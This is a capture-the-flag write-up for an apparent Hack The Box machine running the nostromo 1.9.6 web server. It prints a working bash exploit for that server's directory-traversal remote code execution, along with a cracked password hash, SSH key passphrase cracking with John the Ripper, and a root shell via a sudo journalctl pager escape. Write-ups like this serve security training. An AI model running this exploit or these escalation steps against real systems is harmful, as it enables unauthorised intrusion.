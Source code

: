 ![](./logo.png)

Initially scanning the webpage gives us `ssh` and `http`.

Using `gobuster` on the website heavily throttles it. We're going to have to find another way.

However the web server banner is `nostromo 1.9.6`. With a quick Google it shows this server is vulnerable to
a RCE via directory traversal.

Below is a PoC created the use of `\r` allows us to obtain the `/bin/sh` binary and pass it a command we want

```sh
#!/usr/bin/env bash

HOST="$1"
PORT="$2"
shift 2

( \
    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
    echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
    | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

With the request looks like so like so:
```
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
Content-Length: 1

echo
echo
<COMMAND> 2>&1
```

This functionality is bundled up in `exploit.sh`.


Doing a `lse.sh` scan shows us a `htpasswd` file with a hash!

```
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Cracking this with `jtr` gives us:

```
david:Nowonly4me
```

This password wasn't useful anywhere, so I continued looking.


The final piece was in the `nhttp.d` file with the `HOMEDIRS` section:

The [documentation](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd) contains a section on `HOMEDIR`:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:

http://www.nazgul.ch/~hacki/

The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public 

```
With our config looking like so:
```
# HOMEDIRS [OPTIONAL]

homedirs		    /home
homedirs_public		public_www
```

This means we can access `david` from the `http` server via:

```
http://10.10.10.165/~david
```

But this was no use!

The presence of the `public_www` shows it is locked down to that directory, but what if we try from our reverse shell?

We can access it and this shows the presence of a `protected-file-area` directory!

This contains a `backup-ssh-identity-files.tgz`

This provides us with a SSH Private key we can use to connect. But - you guessed it - it is password protected so we have to do a little 
more brute forcing.

Using [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) Jumbo we can use the SSH RSA brute force functionality with
`ssh2john.py`

Then running:
```
john --format=SSH ./ssh_hash.txt
```
Gives us the password `hunter`.

The passsword on the RSA key can be removed like so:
```
openssl rsa -in id_rsa -out id_rsa_no_pass
```
We can use this to connect via `ssh` and grab the `user.txt`!


# ROOT

In `/home/david` there is a script:

```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The key bit is the line:
```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

This is running `journalctl` as `sudo`. We can leverage this because it is running the command without a password


Running:

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

Puts us in a `less` session we can just type `!/bin/sh` to obtain a shell as `root`!